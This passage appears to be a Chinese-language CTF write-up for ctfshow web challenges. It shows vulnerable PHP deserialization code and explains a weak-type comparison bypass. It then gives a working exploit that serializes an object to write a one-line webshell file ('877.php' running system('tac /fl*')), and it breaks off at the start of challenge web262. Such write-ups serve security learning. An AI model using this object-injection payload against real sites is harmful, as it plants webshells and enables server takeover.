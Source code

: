 ```php
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }
 
    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}
 
unserialize($_GET['vip']); 
```

这里面全是魔术方法

`__invoke()`当尝试将对象调用为函数时触发,但是这里没有相关的函数，所以这个相当于没用

`__destruct()``$this->code==0x36d`是弱类型比较，0x36d没有引号代表数字，十六进制0x36d转为十进制是877,我们只要让a=877.php，b为一句话木马即可

```php
<?php
 
class ctfshowvip{
    public $username;
    public $password;
    public function __construct(){
        $this->username='877.php';
        $this->password="<?php eval(system('tac /fl*')); ?>";
    }
}
 
echo urlencode(serialize(new ctfshowvip()));
```

### [web262]

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
```